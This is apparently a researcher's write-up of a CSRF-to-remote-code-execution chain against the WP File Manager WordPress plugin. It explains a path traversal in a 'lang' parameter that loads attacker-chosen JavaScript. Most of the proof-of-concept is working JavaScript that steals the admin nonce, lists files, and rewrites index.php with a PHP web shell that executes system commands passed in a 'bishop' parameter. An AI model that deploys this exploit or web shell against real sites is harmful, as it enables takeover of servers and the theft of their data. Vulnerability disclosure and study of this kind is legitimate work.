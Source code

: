 
  author: 'Daniel',
  date: '2024-02',
  title: 'CSRF to RCE with WP File Manager',
  description:
    'CSRF to RCE',
}

  title: article.title,
  description: article.description,
}







Initially carrying out checks for LFI noticed the Language select field would try to get a
Javascript file depending on the language selected. A request was still made when the field was
empty, and directory traversal was possible with "../".
A ".js" is appended to the query, initially I tried splitting the URL with null bytes, converting the
lang parameter to another query, adding # for a split on the fragment, while it may be possible; I
moved on.


Given the "lang" parameter is requesting a JavaScript file and we can have the freedom to
control where the victim retrieves it from. We need to create a malicious JavaScript file; fairly
typical for CSRF vulnerabilities to exploit the privileges of the victim to promote an attackers
account, this attack doesn't specifically require the attack to be authenticated; so long as they
can get a JavaScript file on the host. The Proof of concept script allows Remote Code
Execution by getting the Administrator to edit a WordPress PHP file, appending basic Web Shell
capabilities.


## Proof of Concept

The genRid function is copied from WP File Manager, it is appended to the end of POST
requests.

```javascript

    function genRid(){
        return reqId = (+ new Date()).toString(16) + Math.floor(1000 * Math.random()).toString(16);
    }

```

The WordPress Nonce is read from the document object available when the script is first called.

```javascript

    var nonceget = document.querySelector("#file_manager_free_shortcode_admin-jsextra").text;
    nonce = nonceget.slice(89,99);

```

The initial XMLHttpRequest utilizes the WordPress nonce and retrieves a list of files from WP
File Manager.

```javascript

    var req1 = new XMLHttpRequest();
    req1.open('GET', `http://127.0.0.1:1337/wp-admin/admin-ajax.php?action=mk_file_folder_manager&_wpnonce=${nonce}&networkhref=&cmd=open&target=l1_Lw&init=1&tree=1&_=1707815126701`, false);
    req1.withCredentials = true;
    req1.send();
    var obj = JSON.parse(req1.response);
```

If the resulting Object returns with files; index.php is located. 

```javascript
    
    if (obj['files']){
        obj['files'].forEach(element => { if (element['mime'] == "text/x-php" && element['name'] == "index.php") { editFile(element); } }); 
    } 
```

Finally the file is edited with a XMLHttpRequest inserting malicious PHP along with the exsisting file content in the base WordPress index.php file.

```javascript

    function editFile(element){
        
        var payload = "%3C%3Fphp%0Adefine(+'WP_USE_THEMES'%2C+true+)%3B%0Arequire+__DIR__+.+'%2Fwp-blogheader.php'%3B%0A%0Aif+(isset(%24_REQUEST%5B%22bishop%22%5D))%7B%0A%09echo+system(%24_REQUEST%5B%22bishop%22%5D)%3B%0A%7D%3B";
        var params = `action=mk_file_folder_manager&_wpnonce=${nonce}&networkhref=&cmd=put&target=${element["hash"]}&encoding=UTF-8&content=${payload}&reqid=${genRid()}`;
        var freq = new XMLHttpRequest();
        freq.open('POST', 'http://127.0.0.1:1337/wp-admin/admin-ajax.php', false);
        freq.withCredentials = true;
        freq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        freq.send(params);
        var freqResponse = freq.response;
    }

```

If successful the system commands can be executed via appending a bishop parameter to the
index page.
